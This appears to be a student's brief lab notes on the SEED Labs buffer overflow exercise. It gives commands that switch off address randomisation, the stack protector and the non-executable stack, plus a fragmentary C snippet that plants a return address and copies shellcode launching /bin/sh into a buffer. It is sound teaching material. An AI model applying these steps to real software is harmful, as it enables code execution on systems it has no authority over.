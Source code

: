 ```yaml
---
layout: post
title: "Buffer Overflow Attack"
categories:
  - Seed Labs
tags:
  - security
  - C
  - Summer 2018
---
```


address space randomization
to turn it off:
* $ sudo sysctl -w kernel.randomize_va_space=0

Stack gaurd protection
to turn it off:
* $ gcc -fno-stack-protector

To make the stack be able to execute commands:
* $ gcc -z execstack

The shellcode invokes the
execve()
system call to execute
/bin/sh

if buffer size is 24
You need to fill the buffer with appropriate contents here */
    buffer[36] = 0xDC;
    buffer[37] = 0xEB;
    buffer[38] = 0xFF;
    buffer[39] = 0xBF;

    int i;
    int j = 0;
    int len = 512 - (sizeof(shellcode) / sizeof(shellcode[0]));
    printf("%d", len);
    for(i = len; i <= 512; i++){
        buffer[i] = shellcode[j];
        j++;
    }

if the buffer is 28 then i need to add 4 bytes to the buffer -> buffer[40]
